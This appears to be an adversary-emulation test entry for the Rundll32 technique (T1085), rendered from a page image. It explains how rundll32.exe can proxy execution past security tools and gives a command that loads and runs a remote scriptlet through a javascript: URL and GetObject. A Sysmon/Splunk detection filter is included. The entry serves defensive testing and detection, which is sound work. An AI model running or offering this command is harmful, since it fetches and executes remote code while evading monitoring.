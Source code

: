 ##Rundll32

**Description**
The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

**Assumptions**
Windows Platform, User Permissions Required

**Execution: Atomic Test #1 - Rundll32 Execute JavaScript Remote Payload With GetObject**
#### Download File: T1085 - Rundll32 - Scriptlet.sct

Run in Command Promt:

#### rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();"

**Detection Filter**
#### source="WinEventLog:Microsoft-Windows-Sysmon/Operational", sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational", ".sct", "SHA1=60733DE225B5C4BFC42FB79E5D1A4F6683243E4A" "C:\\Windows\\System32\\NOTEPAD.EXE"
